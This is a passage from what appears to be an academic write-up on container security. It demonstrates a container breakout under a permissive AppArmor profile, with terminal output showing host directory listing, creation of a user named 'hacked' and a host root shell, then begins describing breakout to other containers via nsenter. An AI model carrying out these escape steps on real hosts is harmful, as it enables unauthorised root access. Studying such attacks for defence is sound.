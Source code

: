 The last rule is \textbf{ptrace (read,trace)} which allows the ptrace operations with read and trace permissions, so that it can find the target process.
\\
\\
Let's execute the script and see the output:
\begin{lstlisting}[style=terminal]
$ ./run_privileged_actions.sh 
====== ls / ======
HostRootDirIsHere  etc               lib         mnt   run   tmp      vmlinuz.old
bin                 home             lib64       opt   sbin  usr
boot                initrd.img       lost+found  proc  srv   var
dev                 initrd.img.old   media       root  sys   vmlinuz  
====== touch HelloFromTheOtherSide ======
====== useradd hacked ======
useradd: failure while writing changes to /etc/shadow
====== /bin/bash ======
root@c78a017a1455:/# ls | grep Hello
%Hello%FromTheOtherSide
root@c78a017a1455:/# ls -l HelloFromTheOtherSide 
-rw-r--r-- 1 root root 0 Jan 30 23:04 HelloFromTheOtherSide
root@c78a017a1455:/# cut -d: -f1 /etc/passwd | grep hacked
%hacked%
\end{lstlisting}

The attacker completed the attack with success. He achieved listing host's root directory contents, touched a new file and added a new user called hacked - /etc/shadow is the file where passwords are stored in encrypted format, we don't mind if it fails for some reason as we did not take any precautions over the password and the user was created anyway. The bash shell was created and the attacker detected the file he touched before, found the user hacked among host's users and is free to commit any attack inside host's mount namespace.

\subsubsection{Breakout to another container}

If the attacker is capable to sneak into host then it is a matter of time before he sneaks into other containers. Breaking out to other containers in the following example is achieved by using nsenter to other host's processes' mount namespace which is a lot easier than entering the init process namespaces.

First, we have to run a container that is going to form the attacker's target.
We use a debian image as a base image and run a bash shell as follows:

\begin{lstlisting}[style=dockercommands]
$ docker run --security-opt "apparmor=attacked_profile" --rm -it debian:latest /bin/bash
\end{lstlisting}

